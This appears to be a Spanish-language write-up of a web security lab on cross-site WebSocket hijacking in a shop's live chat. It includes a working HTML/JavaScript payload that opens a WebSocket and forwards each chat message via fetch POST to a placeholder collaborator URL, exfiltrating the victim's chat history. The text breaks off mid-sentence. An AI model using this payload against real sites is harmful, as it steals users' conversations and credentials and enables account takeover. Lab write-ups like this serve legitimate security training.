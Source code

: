 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta información

```python
<script> 
var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

- **Se conecta a un servidor WebSocket**
    
    - El navegador establece una conexión con un servidor remoto (controlado por el atacante o sistema).
        
    - Esta conexión se mantiene abierta para recibir mensajes en tiempo real.
        
- **Envía una señal de "listo"**
    
    - Al establecer la conexión, el navegador envía un mensaje tipo `"READY"` para avisar que está conectado y esperando instrucciones.
        
- **Escucha mensajes entrantes**
    
    - El servidor WebSocket puede enviar mensajes al navegador.
        
- **Reenvía esos mensajes a otro servidor**
    
    - Cada mensaje recibido es automáticamente enviado (como una solicitud POST) a otra URL, generalmente bajo control del atacante o 

![[Pasted image 20250729142914.png]]

![[Pasted image 20250729142857.png]]